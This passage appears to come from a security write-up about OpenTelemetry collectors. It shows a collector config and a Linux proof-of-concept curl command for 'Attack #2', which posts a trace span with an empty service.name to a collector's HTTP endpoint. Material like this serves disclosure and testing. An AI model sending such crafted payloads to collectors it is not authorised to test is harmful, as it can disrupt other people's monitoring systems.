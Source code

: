 ```
    attributes:
      - key: service.name
        value: not-specified-service
        action: insert

exporters:
  otlp:
    endpoint: ${OTLP_GRPC_URL}

service:
  pipelines:
    traces:
      receivers: [otlp]
      processors: [batch, resource]
      exporters: [otlp]
```

### Attack #2 - empty service.name

It is only variation of attack #1.

Linux POC script:
```
# use HTTP endpoint(usually /v1/traces), not GRPC endpoint
export HTTP_TRACE_ENDPOINT=<HTTP-COLLECTOR-TRACE-ENDPOINT>

# add auth header(s) if authentication is required
curl -v -X POST $HTTP_TRACE_ENDPOINT \
-H 'Content-Type: application/json' \
--data-binary @- << EOF
{
 "resourceSpans": [{
  "resource": {
   "attributes": [{
    "key": "service.name",
    "value": {
     "stringValue": ""
    }
   }]
  },
  "scope_spans": [{
   "spans": [{
    "traceId": "5661215315a87ad7dd8448b4101a59a9",
    "spanId": "29f50492db6b0ced",
    "name": "demo-operation",
    "kind": 1,
    "startTimeUnixNano": 1631649350122333000,
    "endTimeUnixNano": 1631649350777700000,
    "attributes": [],
    "droppedAttributesCount": 0,
    "events": [{
     "timeUnixNano": 1631649350777700000,
     "name": "fetching-span1-completed",
     "attributes": [],
     "droppedAttributesCount": 0
    }],
    "droppedEventsCount": 0,
    "status": {
     "code": 0
    },
    "links": [],
    "droppedLinksCount": 0
   }]
  }]
```